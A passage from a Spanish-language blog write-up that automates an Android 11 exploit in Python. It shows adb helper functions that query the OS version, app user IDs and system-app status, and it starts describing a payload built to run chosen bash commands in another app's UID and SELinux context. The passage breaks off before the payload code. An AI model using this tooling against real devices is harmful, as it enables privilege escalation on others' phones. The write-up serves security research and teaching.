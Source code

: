 
Si automatizamos todo este proceso y arreglamos algunos detalles (como el hecho de que hay que abrir una aplicación manualmente después de cada explotación), tendremos una primera versión funcional del exploit para Android 11.

## -[ 0x07 Primera versión del exploit (Android 11) ]-

### Comunicación básica con adb

Para empezar a automatizar nuestro proceso, lo primero que necesitamos es poder interactuar programáticamente con `adb` usando Python, que es el lenguaje que usaremos en este experimento.

Existen varias opciones de _módulos_ que abstraen el proceso de trabajar con adb, sin embargo, decidimos simplemente usar el módulo `subprocess` para interactuar con `adb`. La función encargada de este proceso se vería así:


{% highlight python linenos %}
import subprocess

def send_adb_command(command):
    p = subprocess.Popen(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
    (child_stdin, child_stdout, child_stderr) = (p.stdin, p.stdout, p.stderr)
    return p.stdout.read().decode("utf-8")
{% endhighlight %}

Ya con esto podemos averiguar, por ejemplo, la versión de Android:

{% highlight python linenos %}
android_version = send_adb_command("adb shell getprop ro.build.version.release").strip("\n")
{% endhighlight%}

### Sacando la información necesaria

Con la función `send_adb_command` podemos averiguar el ID de usuario de una aplicación y si es privilegiada o no:
```python
{% highlight python linenos %}
def get_app_uid(app):
    uid = send_adb_command(f"adb shell dumpsys package {app} | grep userId=")
    uid = uid.split("\n")
    _, uid = uid[0].split("=")
    return uid.strip('\n')
		
def is_system_app(app):
    return True if send_adb_command(f"adb shell pm path {app}").find(':/system') > 0 else False
{% endhighlight %}
```

Con estos dos datos podemos construir una _payload_.


### Payload

Vamos a crear una función que genere una variable llamada `payload` y que incluya todos los valores que teníamos en nuestra _payload_ original. Ahora, al pasar el nombre completo de una aplicación, obtendremos una _payload_ ya lista con el ID de usuario, grupo y contexto de SELinux. Además, la función también recibe como argumento el comando de bash que deseamos ejecutar, lo que nos permitirá _jugar_ más fácilmente con diferentes comandos. 
